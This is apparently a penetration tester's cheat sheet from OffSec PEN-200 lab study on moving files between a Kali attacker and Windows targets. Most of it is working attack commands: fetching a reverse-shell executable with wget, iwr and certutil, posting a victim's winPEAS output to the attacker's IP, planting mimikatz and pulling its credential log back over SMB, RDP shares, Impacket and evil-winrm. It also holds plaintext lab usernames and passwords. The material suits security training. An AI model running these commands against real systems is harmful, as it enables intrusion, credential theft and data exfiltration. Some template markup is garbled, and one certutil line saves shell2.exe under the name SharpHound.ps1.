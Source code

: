 ```yaml
---
IP_KALI: 192.168.45.200
IP_TARGET: 192.168.45.200
USER: Eric.Wallows
PASSWD: EricLikesRunning800
FILENAME: shell2.exe
OUTFILE: shell2.exe
PORT_KALI: "80"
FILEPATH: C:\Users\Administrator\winpeaseout.txt
---
```

Common Directories:
- ligolo-ng/ligolo-ng_agent_0.7.5_windows_amd64/agent.exe
- BloodHound-Legacy/Collectors/SharpHound.exe
- BloodHound-Legacy/Collectors/SharpHound.ps1
- mimikatz/x64/mimikatz.exe

Using wget:
- wget http://<span id="IP_KALI"/>192.168.45.200<span type="end"/>:<span id="PORT_KALI"/>80<span type="end"/>/<span id="FILENAME"/>shell2.exe<span type="end"/>

Using xfreerdp, creating shared folder:
- sudo xfreerdp +clipboard /u:<span id="USER"/>Eric.Wallows<span type="end"/> /p:<span id="PASSWD"/>EricLikesRunning800<span type="end"/> /v:<span id="IP_TARGET"/>192.168.45.200<span type="end"/> +drive:/home/kali

On PS, using iwr:
- iwr -uri http://<span id="IP_KALI"/>192.168.45.200<span type="end"/><span type="end"/><span type="end"/><span type="end"/><span type="end"/><span type="end"/>:<span id="PORT_KALI"/>80<span type="end"/>/<span id="FILENAME"/>shell2.exe<span type="end"/> -Outfile <span id="OUTFILE"/>shell2.exe<span type="end"/>
- Invoke-WebRequest -Uri "http://<span id="IP_KALI"/>192.168.45.200<span type="end"/>:<span id="PORT_KALI"/>80<span type="end"/>" -Method Post -Body (Get-Content -Path "<span id="FILEPATH"/>C:\Users\Administrator\winpeaseout.txt<span type="end"/>" -Encoding Byte) -ContentType "multipart/form-data"

On linux through ssh:
- scp <span id="FILENAME"/>shell2.exe<span type="end"/> <span id="USER"/>Eric.Wallows<span type="end"/>@<span id="IP_TARGET"/>192.168.45.200<span type="end"/>:

Window file transfer cheat sheet:
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/

Using certutil:
- certutil.exe -urlcache -f http://<span id="IP_KALI"/>192.168.45.200<span type="end"/>:80/<span id="FILENAME"/>shell2.exe<span type="end"/> <span id="OUTFILE"/>SharpHound.ps1
<span type="end"/>

Victim to Attacker File Transfers
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
1) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
2) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
3) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

4) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!